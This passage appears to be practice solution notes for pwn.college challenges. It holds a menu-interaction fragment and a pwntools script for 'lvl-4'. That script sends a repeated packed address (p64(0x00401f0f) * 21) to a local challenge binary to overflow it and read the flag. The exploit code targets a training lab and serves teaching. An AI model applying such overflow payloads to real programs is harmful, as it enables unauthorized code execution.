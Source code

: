 ```
create(0,"hello ")
create(1,"world,")
create(3,"magic ")
create(5,"notebook")

edit(1)
edit(5)

p.sendlineafter("Choice >>", b"5")

print_lines(p)
```

pwn.college{practice}



## lvl-4

```
from pwn import *
context(arch="amd64", os="linux", log_level="debug")
path = "/challenge/pwntools-tutorials-level4.0"

p = process(path)

hex = 0x00401f0f
payload = p64(hex) * 21
p.recvuntil("Give me your input\n")
p.sendline(payload)
flag = p.recvline()
```


pwn.college{practice}

